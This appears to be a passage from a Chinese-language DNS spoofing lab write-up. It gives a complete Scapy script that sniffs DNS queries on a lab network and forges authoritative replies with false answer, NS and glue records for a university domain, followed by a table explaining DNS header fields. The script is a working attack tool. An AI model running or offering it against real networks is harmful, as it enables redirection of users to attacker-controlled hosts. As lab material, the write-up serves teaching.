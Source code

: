 ```python
#!/usr/bin/python3

from scapy.all import *

def spoof_dns(pkt):
    if (DNS in pkt and 'www.hust.edu.cn' in pkt[DNS].qd.qname.decode('utf-8')):
        # Swap the source and destination IP address
        IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)

        # Swap the source and destination port number
        UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

        # The Answer Section
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', 
        	ttl=11803, rdata='172.18.0.1')

        # The Authority Section
        NSsec1 = DNSRR(rrname='hust.edu.cn', type='NS', 
        	ttl=11803, rdata='ns1.hust.edu.cn')
        NSsec2 = DNSRR(rrname='hust.edu.cn', type='NS', 
        	ttl=11803, rdata='ns2.hust.edu.cn')

        # The Additional Section
        Addsec1 = DNSRR(rrname='ns1.hust.edu.cn', type='A', 
        	ttl=11803, rdata='201.91.180.3')
        Addsec2 = DNSRR(rrname='ns2.hust.edu.cn', type='A', 
        	ttl=11803, rdata='200.10.3.27')

        # Construct the DNS packet
        DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, 
        	rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=2, 
        	an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)
        
        # Construct the entire IP packet and send it out
        spoofpkt = IPpkt/UDPpkt/DNSpkt
        ls(DNSpkt)
        send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().
f = 'udp and dst port 53 and src host 172.18.0.3'
pkt = sniff(iface='br-e4a075733e38', filter=f, prn=spoof_dns)
```

- `DNS`载荷的[说明](https://scapy.readthedocs.io/en/latest/api/scapy.layers.dns.html?highlight=DNS)如下：

| **length**  | [`ShortField`](https://scapy.readthedocs.io/en/latest/api/scapy.fields.html#scapy.fields.ShortField) (Cond) | `None`      | [含义](http://c.biancheng.net/view/6457.html)             |
| ----------- | ------------------------------------------------------------ | ----------- | --------------------------------------------------------- |
| **id**      | [`ShortField`](https://scapy.readthedocs.io/en/latest/api/scapy.fields.html#scapy.fields.ShortField) | `0`         | 传输`id`，需要与`DNS`请求报文一致                         |
| **qr**      | [`BitField`](https://scapy.readthedocs.io/en/latest/api/scapy.fields.html#scapy.fields.BitField) (1 bit) | `0`         | 查询/响应标志（`0-查询，1-响应`）                         |
| **opcode**  | [`BitEnumField`](https://scapy.readthedocs.io/en/latest/api/scapy.fields.html#scapy.fields.BitEnumField) | `0`         | 操作码（`0-标准查询，1-反向查询，2-服务器状态请求`）      |
| **aa**      | [`BitField`](https://scapy.readthedocs.io/en/latest/api/scapy.fields.html#scapy.fields.BitField) (1 bit) | `0`         | 是否包含授权回答（`1-包含`）                              |
| **tc**      | [`BitField`](https://scapy.readthedocs.io/en/latest/api/scapy.fields.html#scapy.fields.BitField) (1 bit) | `0`         | 是否被截断（`1-被截断`）                                  |
| **rd**      | [`BitField`](https://scapy.readthedocs.io/en/latest/api/scapy.fields.html#scapy.fields.BitField) (1 bit) | `1`         | 是否期望递归（`0-禁用递归查询`）                          |
| **ra**      | [`BitField`](https://scapy.readthedocs.io/en/latest/api/scapy.fields.html#scapy.fields.BitField) (1 bit) | `0`         | 是否可用递归（`1-服务器支持递归查询`）                    |
| **z**       | [`BitField`](https://scapy.readthedocs.io/en/latest/api/scapy.fields.html#scapy.fields.BitField) (1 bit) | `0`         | 保留字段                                                  |
| **ad**      | [`BitField`](https://scapy.readthedocs.io/en/latest/api/scapy.fields.html#scapy.fields.BitField) (1 bit) | `0`         | 保留字段                                                  |
| **cd**      | [`BitField`](https://scapy.readthedocs.io/en/latest/api/scapy.fields.html#scapy.fields.BitField) (1 bit) | `0`         | 保留字段                                                  |